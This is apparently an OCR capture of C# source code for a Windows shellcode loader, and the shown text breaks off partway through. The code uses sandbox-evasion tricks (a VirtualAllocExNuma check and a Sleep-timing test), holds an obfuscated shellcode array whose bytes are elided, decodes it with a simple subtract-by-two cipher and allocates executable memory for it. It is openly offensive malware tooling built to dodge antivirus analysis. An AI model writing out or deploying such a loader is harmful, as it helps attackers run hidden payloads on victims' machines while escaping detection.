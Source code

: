 ```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;

namespace ConsoleApp1
{
    internal class Program
    {
        [DllImport("kernel32")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32", CharSet = CharSet.Ansi)]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,
            uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

		[DllImport("kernel32.dll")]
		static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        static void Main(string[] args)
        {
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

            DateTime t1 = DateTime.Now;
		    Sleep(2000);
		    double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
		    if(t2 < 1.5)
		    {
		        return;
		    }
                // copy the encrypted shellcode
                byte[] buf = new byte[636] { 0xfe, 0x4a, 0x85, ... };
            
            // decrypts the encrypted shellcode by using the substitution key of 2 and subtracts
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
            }
            
            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

```